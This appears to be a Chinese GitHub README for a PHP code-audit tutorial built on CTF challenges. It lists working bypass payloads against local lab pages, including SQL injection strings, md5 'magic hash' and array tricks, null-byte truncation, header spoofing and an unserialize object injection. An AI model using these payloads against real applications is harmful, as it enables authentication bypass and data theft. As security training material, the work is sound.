



# PHP代码审计分段讲解

- **作  者：bowu**
- **网  站：[薄雾‘ s Blog](http://www.bowu8.com)**
- **Github: [bowu (Github)](https://github.com/bowu678/php_bugs)**
- **本项目将会持续更新，请`Star`予以支持，感谢亲 :)**

## 关于本项目

代码审计对于很多安全圈的新人来说，一直是一件头疼的事情，也想跟着大牛们直接操刀审计CMS？却处处碰壁：

- 函数看不懂！
- 漏洞原理不知道！
- PHP特性更不知！

**那还怎么愉快审计？**

不如**化繁为简**，跟着本项目先搞懂PHP中大多敏感函数与各类特性，再逐渐增加难度，直到可以吊打各类CMS~

> 本项目讲解基于多道CTF题，玩CTF的WEB狗也不要错过(＾－＾)V

> 题的源码在Github: [bowu (Github)](https://github.com/bowu678/php_bugs)，可以自行部署，也可以静态审计。

**欢迎贡献题目与解答，代表各位小白感激不尽~**

## 01 extract变量覆盖

`http://127.0.0.1/Php_Bug/extract1.php?shiyan=&flag=1`

## 02 绕过过滤的空白字符

可以引入\f（也就是%0c）在数字前面，来绕过最后那个is_palindrome_number函数，而对于前面的数字判断，因为intval和is_numeric都会忽略这个字符，所以不会影响。

`http://127.0.0.1/Php_Bug/02.php?number=%00%0c191`

资料：

- [PHP类型与逻辑+fuzz与源代码审计](http://www.chnpanda.com/961.html)

## 03 多重加密

```
<?php

$arr = array(['user'] === 'ichunqiu');
$token = base64_encode(gzcompress(serialize($arr)));
print_r($token);
// echo $token;

?>
```

`eJxLtDK0qs60MrBOAuJaAB5uBBQ=`


## 04 SQL注入_WITH ROLLUP绕过


`admin' GROUP BY password WITH ROLLUP LIMIT 1 OFFSET 1-- - `

资料：

- [实验吧 因缺思汀的绕过 By Assassin（with rollup统计）](http://blog.csdn.net/qq_35078631/article/details/54772798)
- [使用 GROUP BY WITH ROLLUP 改善统计性能](http://blog.csdn.net/id19870510/article/details/6254358)
- [因缺思汀的绕过](http://www.bubuko.com/infodetail-2169730.html)

## 05 ereg正则%00截断

http://127.0.0.1/Php_Bug/05.php?password=1e9%00*-*

资料：

- [eregi()](http://www.am0s.com/functions/203.html)

## 06 strcmp比较字符串

`http://127.0.0.1/Php_Bug/06.php?a[]=1`

这个函数是用于比较字符串的函数

```
int strcmp ( string $str1 , string $str2 )
// 参数 str1第一个字符串。str2第二个字符串。如果 str1 小于 str2 返回 < 0； 如果 str1 大于 str2 返回 > 0；如果两者相等，返回 0。
```

可知，传入的期望类型是字符串类型的数据，但是如果我们传入非字符串类型的数据的时候，这个函数将会有怎么样的行为呢？实际上，当这个函数接受到了不符合的类型，这个函数将发生错误，但是在`5.3`之前的php中，显示了报错的警告信息后，将`return 0` !!!! 也就是虽然报了错，但却判定其相等了。这对于使用这个函数来做选择语句中的判断的代码来说简直是一个致命的漏洞，当然，php官方在后面的版本中修复了这个漏洞，使得报错的时候函数不返回任何值。`strcmp`只会处理字符串参数，如果给个数组的话呢，就会返回`NULL`,而判断使用的是`==`，`NULL==0`是 `bool(true)`

## 07 sha()函数比较绕过

`http://127.0.0.1/Php_Bug/07.php?name[]=1&password[]=2`

`===`会比较类型，比如`bool`
`sha1()`函数和`md5()`函数存在着漏洞，`sha1()`函数默认的传入参数类型是字符串型，那要是给它传入数组呢会出现错误，使`sha1()`函数返回错误，也就是返回`false`，这样一来`===`运算符就可以发挥作用了，需要构造`username`和`password`既不相等，又同样是数组类型

`?name[]=a&amp;password[]=b`

## 08 SESSION验证绕过

`http://127.0.0.1/Php_Bug/08.php?password=`

删除`cookies`或者删除`cookies`的值

资料：

- [【Writeup】Boston Key Party CTF 2015(部分题目)](http://blog.csdn.net/lymingha0/article/details/44079981)

## 09 密码md5比较绕过

`?user=' union select 'e10adc3949ba59abbe56e057f20f883e' #&pass=123456`

资料：

- [DUTCTF-2015-Writeup](http://bobao.360.cn/ctf/learning/129.html)

## 10 urldecode二次编码绕过

`h`的`URL`编码为：`%68`，二次编码为`%2568`，绕过

`http://127.0.0.1/Php_Bug/10.php?id=%2568ackerDJ`

资料：

- [URL编码表](https://baike.baidu.com/item/URL%E7%BC%96%E7%A0%81/3703727?fr=aladdin)


## 11 sql闭合绕过

构造exp闭合绕过
`admin')#`


## 12 X-Forwarded-For绕过指定IP地址

`HTTP`头添加`X-Forwarded-For:1.1.1.1`

## 13 md5加密相等绕过

`http://127.0.0.1/Php_Bug/13.php?a=240610708`

`==`对比的时候会进行数据转换，`0eXXXXXXXXXX` 转成`0`了，如果比较一个数字和字符串或者比较涉及到数字内容的字符串，则字符串会被转换为数值并且比较按照数值来进行 

```
var_dump(md5('240610708') == md5('QNKCDZO'));
var_dump(md5('aabg7XSs') == md5('aabC9RqS'));
var_dump(sha1('aaroZmOk') == sha1('aaK1STfY'));
var_dump(sha1('aaO8zKZF') == sha1('aa3OFF9m'));
var_dump('0010e2' == '1e3');
var_dump('0x1234Ab' == '1193131');
var_dump('0xABCdef' == ' 0xABCdef');

md5('240610708'); // 0e462097431906509019562988736854 
md5('QNKCDZO'); // 0e830400451993494058024219903391 
```

把你的密码设成 `0x1234Ab`，然后退出登录再登录，换密码 `1193131`登录，如果登录成功，那么密码绝对是明文保存的没跑。 


同理，密码设置为 `240610708`，换密码 `QNKCDZO`登录能成功，那么密码没加盐直接`md5`保存的。

资料：

- [PHP 探测任意网站密码明文/加密手段办法](https://www.v2ex.com/t/188364)

## 14 intval函数四舍五入

`1024.1`绕过

资料：

- [ PHP intval()函数利用](http://blog.csdn.net/wangjian1012/article/details/51581564)

## 15 strpos数组绕过NULL与ereg正则%00截断

- 方法一：
既要是纯数字,又要有`’#biubiubiu’`，`strpos()`找的是字符串,那么传一个数组给它,`strpos()`出错返回`null,null!==false`,所以符合要求. 
所以输入`nctf[]=`
那为什么`ereg()`也能符合呢?因为`ereg()`在出错时返回的也是`null`,`null!==false`,所以符合要求. 

- 方法二：
字符串截断,利用`ereg()`的`NULL`截断漏洞，绕过正则过滤
`http://127.0.0.1/Php_Bug/16.php?nctf=1%00#biubiubiu` 错误
需将#编码
`http://127.0.0.1/Php_Bug/16.php?nctf=1%00%23biubiubiu`
正确

## 16 SQL注入or绕过

```
$query='SELECT * FROM users WHERE name=\''admin\'\' AND pass=\''or 1 #'\';';
```

`?username=admin\'\' AND pass=\''or 1 #&password=`

## 17 密码md5比较绕过

```
//select pw from ctf where user=''and 0=1 union select  'e10adc3949ba59abbe56e057f20f883e' #
```

`?user='and 0=1 union select  'e10adc3949ba59abbe56e057f20f883e' #&pass=123456`

## 18 md5()函数===使用数组绕过

若为`md5($_GET['username']) == md5($_GET['password'])`
则可以构造：
`http://127.0.0.1/Php_Bug/18.php?username=QNKCDZO&password=240610708`
因为`==`对比的时候会进行数据转换，`0eXXXXXXXXXX` 转成`0`了
也可以使用数组绕过
`http://127.0.0.1/Php_Bug/18.php?username[]=1&password[]=2`


但此处是`===`，只能用数组绕过，`PHP`对数组进行`hash`计算都会得出`null`的空值
`http://127.0.0.1/Php_Bug/18.php?username[]=1&password[]=2`

## 19 ereg()函数strpos() 函数用数组返回NULL绕过

- 方法一：
ereg()正则函数可以用`%00`截断
`http://127.0.0.1/Php_Bug/19.php?password=1%00--`

- 方法二：
将`password`构造一个`arr[]`，传入之后，`ereg`是返回`NULL`的，`===`判断`NULL`和 `FALSE`，是不相等的，所以可以进入第二个判断，而`strpos`处理数组，也是返回`NULL`，注意这里的是`!==`，`NULL!==FALSE`,条件成立，拿到`flag`
`http://127.0.0.1/Php_Bug/19.php?password[]=`

## 20 十六进制与数字比较

这里，它不让输入1到9的数字，但是后面却让比较一串数字，平常的方法肯定就不能行了，大家都知道计算机中的进制转换，当然也是可以拿来比较的，`0x`开头则表示`16`进制，将这串数字转换成`16`进制之后发现，是d`eadc0de`，在开头加上`0x`，代表这个是`16`进制的数字，然后再和十进制的 `3735929054`比较，答案当然是相同的，返回`true`拿到`flag`

```
echo  dechex ( 3735929054 ); // 将3735929054转为16进制
结果为：deadc0de
```
构造：
`http://127.0.0.1/Php_Bug/20.php?password=0xdeadc0de`

## 21 数字验证正则绕过

`0 >= preg_match('/^[[:graph:]]{12,}$/', $password)`
意为必须是12个字符以上（非空格非TAB之外的内容）

```
$reg = '/([[:punct:]]+|[[:digit:]]+|[[:upper:]]+|[[:lower:]]+)/'; 
if (6 > preg_match_all($reg, $password, $arr)) 
```
意为匹配到的次数要大于6次

```
$ps = array('punct', 'digit', 'upper', 'lower'); //[[:punct:]] 任何标点符号 [[:digit:]] 任何数字  [[:upper:]] 任何大写字母  [[:lower:]] 任何小写字母 
foreach ($ps as $pt) 
{ 
    if (preg_match("/[[:$pt:]]+/", $password)) 
        $c += 1; 
} 
if ($c < 3) break; 
```
意为必须要有大小写字母，数字，字符内容三种与三种以上

```
if ("42" == $password) echo $flag; 
```
意为必须等于`42`

答案：
```
42.00e+00000000000 
或
420.000000000e-1
```
资料：

- [安全宝「约宝妹」代码审计CTF题解](http://bobao.360.cn/learning/detail/248.html)

- [各种版本PHP在线迷你运行脚本](https://3v4l.org/jYSpC)

- [PHP Comparison Operators](http://php.net/manual/en/language.operators.comparison.php)

## 22 弱类型整数大小比较绕过

`is_numeric($temp)?die("no numeric"):NULL;`
不能是数字

```
if($temp>1336){
    echo $flag;
} 
```
又要大于`1336`

利用`PHP`弱类型的一个特性，当一个整形和一个其他类型行比较的时候，会先把其他类型`intval`再比。如果输入一个`1337a`这样的字符串，在`is_numeric`中返回`true`，然后在比较时被转换成数字`1337`，这样就绕过判断输出`flag`。

`http://127.0.0.1/php_bug/22.php?password=1337a`

## 23 md5函数验证绕过

`if(md5($temp)==0)`
要使`md5`函数加密值为`0`

- 方法一：
使`password`不赋值，为`NULL`，`NULL == 0`为`true`
`http://127.0.0.1/php_bug/23.php?password=`
`http://127.0.0.1/php_bug/23.php`

- 方法二：
经过MD5运算后，为`0e******`的形式，其结果为`0*10`的`n`次方，结果还是零
`http://127.0.0.1/php_bug/23.php?password=240610708`
`http://127.0.0.1/php_bug/23.php?password=QNKCDZO`

## 24 md5函数true绕过注入

`$sql = "SELECT * FROM users WHERE password = '".md5($password,true)."'";`
`md5($password,true)`
将`md5`后的`hex`转换成字符串

如果包含`'or'xxx`这样的字符串，那整个`sql`变成

`SELECT * FROM admin WHERE pass = ''or'xxx'`就绕过了

字符串：`ffifdyop`

`md5`后，`276f722736c95d99e921722cf9ed621c`
`hex`转换成字符串：` 'or'6<trash>`


构造：`?password=ffifdyop`

资料：

- [MD5加密后的SQL 注入](http://blog.csdn.net/greyfreedom/article/details/45846137)

- [敏感函数md5()](http://www.am0s.com/functions/204.html)

- [php黑魔法](http://www.xmanblog.net/2017/04/04/php-magic/)

## 25 switch没有break 字符与0比较绕过

让我们包含当前目录中的`flag.php`，给`which`为`flag`，这里会发现在`case 0`和`case 1`的时候，没有`break`，按照常规思维，应该是`0`比较不成功，进入比较`1`，然后比较`2`，再然后进入`default`，但是事实却不是这样，事实上，在 `case 0`的时候，字符串和`0`比较是相等的，进入了`case 0`的方法体，但是却没有`break`，这个时候，默认判断已经比较成功了，而如果匹配成功之后，会继续执行后面的语句，这个时候，是不会再继续进行任何判断的。也就是说，我们`which`传入`flag`的时候，`case 0`比较进入了方法体，但是没有`break`，默认已经匹配成功，往下执行不再判断，进入`2`的时候，执行了`require_once flag.php`

PHP中非数字开头字符串和数字 `0`比较`==`都返回`True`

因为通过逻辑运算符让字符串和数字比较时，会自动将字符串转换为数字.而当字符串无法转换为数字时，其结果就为`0`了，然后再和另一个`0`比大小，结果自然为`ture`。注意：如果那个字符串是以数字开头的，如`6ldb`，它还是可以转为数字`6`的，然后和`0`比较就不等了（但是和`6`比较就相等）
`if($str==0)` 判断 和 `if( intval($str) == 0 )` 是等价的

```
可以验证：
<?php
$str="s6s";
if($str==0){ echo "返回了true.";}
?>
```
要字符串与数字判断不转类型方法有：
- 方法一：
`$str="字符串";if($str===0){   echo "返回了true.";} `

- 方法二：
`$str="字符串";if($str=="0"){   echo "返回了true.";} ,`

此题构造：`http://127.0.0.1/php_bug/25.php?which=aa`

资料：

- [PHP中字符串和数字 0 比较为什么返回true？](https://zhidao.baidu.com/question/336186893.html)

## 26 unserialize()序列化

说明`flag`在`pctf.php`，但`showimg.php`中不允许直接读取`pctf.php`，只有在`index.php`中可以传入变量`class`
，`index.php`中`Shield`类的实例`$X = unserialize($g)`，`$g = $_GET['class'];`，`$X`中不知`$filename`变量，但需要找的是：`$filename = "pctf.php"`，现`$X`已知，求传入的`class`变量值。
可以进行序列化操作：
```
<!-- answer.php -->
<?php

require_once('shield.php');
$x = class Shield();
$g = serialize($x);
echo $g;

?>

<!-- shield.php -->
<?php
    //flag is in pctf.php
    class Shield {
        public $file;
        function __construct($filename = 'pctf.php') {
            $this -> file = $filename;
        }
        
        function readfile() {
            if (!empty($this->file) && stripos($this->file,'..')===FALSE  
            && stripos($this->file,'/')===FALSE && stripos($this->file,'\\')==FALSE) {
                return @file_get_contents($this->file);
            }
        }
    }
?>

```
得到：
`O:6:"Shield":1:{s:4:"file";s:8:"pctf.php";}`
构造：
`http://web.jarvisoj.com:32768/index.php?class=O:6:"Shield":1:{s:4:"file";s:8:"pctf.php";}`

## 30 利用提交数组绕过逻辑

首先是给了一个页面，提示 `Sorry. You have no permissions.`。

查看 cookie 发现是 base64 。解密之后替换中间的 `guest` 为 `admin` 绕过登陆限制。

这段代码首先会查看提交的请求中是否存在 `<>` 如果没有则将传入的数据(如果是数组)转化为字符串。如果其中存在 `<>` 则将flag生成在一个随机命名的文件中。
`implode()` 这个函数需要传入数组，如果传入的是字符串将报错，变量 `$s` 自然也就没有值。

    if($auth){
        if(isset($_POST['filename'])){
            $filename = $_POST['filename'];
            $data = $_POST['data'];
            if(preg_match('[<>?]', $data)) {
                die('No No No!');
            }
            else {
                $s = implode($data);
                if(!preg_match('[<>?]', $s)){
                    $flag="None.";
                }
                $rand = rand(1,10000000);
                $tmp="./uploads/".md5(time() + $rand).$filename;
                file_put_contents($tmp, $flag);
                echo "your file is in " . $tmp;
            }
        }
        else{
            echo "Hello admin, now you can upload something you are easy to forget.";
            echo "<br />there are the source.<br />";
            echo '<textarea rows="10" cols="100">';
            echo htmlspecialchars(str_replace($flag,'flag{???}',file_get_contents(__FILE__)));
            echo '</textarea>';
        }
    }



想要通过Post请求的形式传入数组可以使用 `data[0]=123&data[1]=<>` 的形式传入数组，这样的话在执行 `implode()` 函数的时候就不会使 `&s` 为空，成功绕过这段逻辑拿到flag。


